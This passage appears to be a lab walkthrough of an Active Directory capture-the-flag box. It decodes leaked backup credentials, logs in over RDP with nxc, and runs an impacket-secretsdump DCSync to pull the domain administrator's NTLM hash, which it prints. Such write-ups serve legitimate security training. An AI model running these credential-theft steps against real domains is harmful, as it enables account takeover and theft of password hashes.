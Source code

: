 Found some `backup_credentials`  in `C:\Shared\backup`

`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

This is a Base64 encoded string, decoding it gives us
`backup@spookysec.local:backup2517860`

```bash
nxc rdp 10.10.208.7 -u backup -p 'backup2517860' -d spookysec.local
```
![[Pasted image 20240812093002.png]]

We have access to the `backup` user in `THM-AD` that has permissions to sync all AD changes including password hashes. This can be exploited using `secretsdump`

```bash
impacket-secretsdump -just-dc-user administrator THM-AD/backup:"backup2517860"@10.10.208.7
```

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

